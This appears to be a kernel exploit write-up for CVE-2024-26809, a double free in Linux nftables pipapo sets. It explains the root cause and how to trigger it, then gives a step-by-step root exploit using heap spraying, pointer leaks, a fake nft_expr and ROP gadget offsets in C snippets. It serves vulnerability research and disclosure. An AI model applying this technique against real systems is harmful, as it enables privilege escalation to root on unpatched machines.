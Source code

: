 # Exploit detail about CVE-2024-26809
If you want to get some base information about CVE-2024-26809, please read [vulnerability.md](./vulnerability.md) first.

## Background
nftables is a netfilter project that aims to replace the existing {ip,ip6,arp,eb}tables framework, providing a new packet filtering framework for {ip,ip6}tables, a new userspace utility (nft) and A compatibility layer. It uses existing hooks, link tracking system, user space queuing component and netfilter logging subsystem.

It consists of three main components: kernel implementation, libnl netlink communication and nftables user space front-end. The kernel provides a netlink configuration interface and runtime rule set evaluation. libnl contains basic functions for communicating with the kernel. The nftables front end is for user interaction through nft.

nftables implements data packet filtering by using some components like `table`, `set`, `chain`, `rule`.


## Cause anaylysis

In the `function nft_pipapo_destroy`, when the set is dirty, it destroys all the set elements in match and clone:
```c
static void nft_pipapo_destroy(const struct nft_ctx *ctx,
			       const struct nft_set *set)
{
	struct nft_pipapo *priv = nft_set_priv(set);
	struct nft_pipapo_match *m;
	int cpu;

	m = rcu_dereference_protected(priv->match, true);
	if (m) {
		...
		nft_set_pipapo_match_destroy(ctx, set, m);
		...
	}

	if (priv->clone) {
		m = priv->clone;

		if (priv->dirty)
			nft_set_pipapo_match_destroy(ctx, set, m);
	...
```

 But an element may be in match and clone at the same time. Therefore, calling nft_pipapo_destroy when a set is dirty may cause double-free problems.

## Triggering the vulnerability

It's easy to trigger it by following this steps:

- Create a pipapo set A.
- Create an element B in A.
- Create an element C in A.(Make set A dirty.) 
- Delete set A. (Here will destroy the element B twice because of CVE-2024-26809.)

By the way, we need to send the command of step 3 and step 4 together.

## Exploit it

The steps for exploiting CVE-2024-26809 and [CVE-2024-1085](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2024-1085_lts/docs/exploit.md) are basically similar.

### Target object caches
Because the `setelem` object size we plan to use is between 0xc0-0x100, our target object cache is `kmalloc-256`

### Exploit detail
I exploit CVE-2024-26809 by following steps:

- 1. Create a pipapo set `A`.
- 2. Create element `B` and element `C` in set `A`.(Two elements are created here because if only one element is created to trigger the vulnerability, the same heap will be released twice in succession, which will cause the kernel to crash in subsequent exploits.)
- 3. Trigger the vulnerability by following messages:
   
   ```c
    memset(key,0x43,0x40);
    msg_list[0] = new_setelem_msg(table, pipapo_set, pad, 0x80, target_obj, key, 0x40, NULL, 0);//Create element D in set A, which will make set A dirty
    msg_list[1] = del_set_msg(table, pipapo_set);//Trigger nft_pipapo_destroy 
    send_msg_list(socket, msg_list, 2);
   ```
   	After this we kfree the set element `B` and `C` twice like this:
	```c
	kfree(element B);
	kfree(element C);
	kfree(element B);
	kfree(element C);
	kfree(element D);
	```
- 4. Try to alloc the heap of the set element `C` back by creating `nft_table` with `NFTA_TABLE_USERDATA`. Keep allocing heap, and each time you alloc a heap, check whether the heap has been alloced for(confirmed by whether the memory of the already created heap has been modified). After this step, We will find two `nft_table` with the same `udata`. We assume that the two `nft_tables` are `nft_table E` and `nft_table F`.
- 5. Delete `nft_table E`.
- 6. Spray heap to get the heap of `nft_table E->udata`
back. I spray heap by creating set element with `NFTA_SET_ELEM_EXPR` because I want to leak the `ops` pointer of the `nft_expr`.
- 7. Dump `nft_table F`. Now we leak `nft_last_ops`.
- 8. Create another set element `G`. Then dump the `nft_table F` again. We can get the pointer of the set element `G` because each bitmap set element has a doubly linked list.
  ```c
  struct nft_bitmap_elem {
	struct list_head	head;
	struct nft_set_ext	ext;
	};
  ```
- 9. Delete set element `G`. Fill the heap memory of set element `G` through heap spraying.
  ```c
    //ops->dump
    *(uint64_t *)&pad[0x40] = kernel_off + 0xffffffff810b9f43;//leave ; ret
    //ops->type
    *(uint64_t *)&pad[0x78] = kernel_off + 0xFFFFFFFF83967420;//last type
    spray_tables(socket,0x200, pad, 0x80);
  ```
- 10. Delete `nft_table F`.
- 11. Fill the heap memory of `nft_table F ->udata` with fake `nft_expr` and ROP gadget.
- 12. Dump the set elements we create in step 5. Finally we will jmp to our ROP gadget.
    ```c
	static int nf_tables_fill_expr_info(struct sk_buff *skb,
						const struct nft_expr *expr)
	{
		if (nla_put_string(skb, NFTA_EXPR_NAME, expr->ops->type->name))
			goto nla_put_failure;

		if (expr->ops->dump) {
			struct nlattr *data = nla_nest_start_noflag(skb,
									NFTA_EXPR_DATA);
			if (data == NULL)
				goto nla_put_failure;
			if (expr->ops->dump(skb, expr) < 0) //we hijack RIP here
				goto nla_put_failure;
			nla_nest_end(skb, data);
		}
	...

  ```

### ROP detail

The assembly code when calling expr->ops->dump is as follows:

```
	mov     rax, [rbp+0]
	mov     rsi, rbp
	mov     rdi, rbx
	mov     rax, [rax+40h]
	call    __x86_indirect_thunk_rax
```
So the `rbp` is the pointer of the current `nft_expr`. We fill it by following:
```c
	...
	//build fake setelem
    *(uint64_t *)&setelem_data[0x28] = ops_addr; //expr[0]->ops
    //start ROP
    *(uint64_t *)&setelem_data[0x30] = kernel_off + 0xffffffff8112af10;//pop rdi; ret  expr[0]->data
	...
```

The first step of ROP start looks like this(We fill the ops pointer in step 8):
```
expr->ops->dump(skb, expr)  --> leave ; ret 
```
This will finally makes this happen:

```
rsp = element + 0x28 // mov rsp, rbp  
rbp = *(element + 0x28) //pop rbp  rbp=*(&setelem_data[0x28])
rsp = element + 0x30 
rip = *(element + 0x30) //ret   rip=*(&setelem_data[0x30])
rsp = element + 0x38 
```
After completing the stack migration, we can run ROPgadget and finally get the root shell.
